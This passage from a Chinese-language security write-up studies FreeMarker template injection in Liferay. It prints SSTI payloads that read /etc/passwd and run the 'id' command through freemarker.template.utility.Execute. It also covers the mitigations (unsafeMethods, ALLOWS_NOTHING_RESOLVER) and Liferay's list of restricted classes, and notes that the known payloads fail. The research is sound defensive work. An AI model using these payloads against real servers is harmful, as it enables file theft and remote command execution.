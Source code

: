 常用的一些内置

```java
<#assign optTemp = .get_optional_template('/etc/passwd')><#if optTemp.exists>Template was found:<@optTemp.include /><#else>Template was missing.</#if>
```

include

## 0x04 修复

FreeMarker内置了一份危险方法名单`unsafeMethods.properties`。可以禁用一些方法(api).

```
cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER); ban掉new
```

## 0x05  lifeary 摸索

首先是我们把之前的利用，直接一把嗦进去了。

```java
 <#assign ex="freemarker.template.utility.Execute"?new()> 
 ${ex("id")}//系统执行id命令并返回
```

可以看到并没有什么鸟用。

![image-20220520085415336](https://c.img.dasctf.com/images/2022520/1653008064823-db2fdccb-88c7-44b8-ba1f-0e7c4aee3e63.png)

我们迅速定位到lifeary的`LiferayTemplateClassResolver`,这个类是处理类的新建的，可以有效的来看看这个错误到底是什么？

![image-20220520090123858](C:\Users\MSI\AppData\Roaming\Typora\typora-user-images\image-20220520090123858.png)

这两个类是直接ban了。

```
restrictedClassNames = {String[13]@44707} ["com.liferay.por...", "java.lang.Class", "java.lang.Class...", "java.lang.Compi...", "java.lang.Packa...", +8 more]
 0 = "com.liferay.portal.json.jabsorb.serializer.LiferayJSONDeserializationWhitelist"
 1 = "java.lang.Class"
 2 = "java.lang.ClassLoader"
 3 = "java.lang.Compiler"
 4 = "java.lang.Package"
 5 = "java.lang.Process"
 6 = "java.lang.Runtime"
 7 = "java.lang.RuntimePermission"
 8 = "java.lang.SecurityManager"
 9 = "java.lang.System"
 10 = "java.lang.Thread"
 11 = "java.lang.ThreadGroup"
 12 = "java.lang.ThreadLocal"
```

不能新建这些类了，然后我们继续看，又发现了一个白名单，有狗？默认为空，也不能用了。所以`new`是没得用了。但是有一个新鲜的类。如果有白名单就可以利用了。
